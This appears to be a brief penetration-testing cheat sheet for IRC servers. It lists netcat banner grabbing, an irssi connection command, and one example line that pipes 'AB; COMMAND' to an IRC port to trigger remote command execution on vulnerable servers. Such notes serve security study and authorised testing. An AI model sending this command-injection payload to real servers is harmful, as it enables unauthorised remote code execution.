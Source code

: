 # Internet Relay Chat (IRC) Penetration Testing

## Enumeration:

### 1) Netcat banner grabbing

 - nc -vn TARGET_IP PORT

### 2) IRC Client (irssi)

 - irssi -c TARGET_IP --port PORT

## TIP: Depending on the IRC server version used, we may find exploits for RCE

### 1) Manual Exploitation

 - echo 'AB; COMMAND' | nc TARGET_IP IRC_PORT (Example)

